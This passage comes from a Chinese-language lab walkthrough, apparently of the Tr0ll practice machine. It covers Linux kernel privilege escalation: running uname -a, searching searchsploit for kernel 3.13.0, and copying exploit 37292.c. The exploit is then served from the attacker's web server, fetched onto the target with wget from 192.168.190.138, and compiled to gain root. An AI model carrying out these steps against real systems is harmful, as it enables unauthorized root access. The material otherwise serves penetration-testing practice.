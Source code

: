 ####         39. 这个脚本执行后会检测Linux内核版本存在哪些漏洞，检测出来的结果的颜色越深说明可以被利用的可能性越大。

####         40.接下来进行exp的利用就可以了。

####         41.下面演示第二种提权方式。

####         42.可以通过自己获取到Linux的版本信息，然后在kali内进行搜索。

```
uname -a
```

####         43.获取到版本信息后执行下面的命令在kali内进行搜索。

```
searchsploit Linux 4-Tr0ll 3.13.0
```

####         44.在此标红的两条就是满足条件的。

####         45.接下来的思路就是将本都的exp搞到靶机的服务器内进行运行，就可以实现提权的效果。

####         46.获取到exp的绝对路径。

```
locate linux/local/37292.c
```

####         47.将其存放在桌面。

```
cp /usr/share/exploitdb/exploits/linux/local/37292.c /home/kali/桌面
```

####         48.将其打开后就可以看到exp的内容。

####         49. 再从本地开启web服务。

####         50. 将exp下载到靶机。

```
wget http://192.168.190.138:8085/37292.c
```

####         51.下载完之后将web服务关闭，在终端内按CTRL+z。 

####         52.将其进行编译和执行，此时再次查看权限，可以看到此时的权限就是root权限了。

####         53.查看靶机内的文件proof.txt,至此我们就成功拿下了靶机！！！
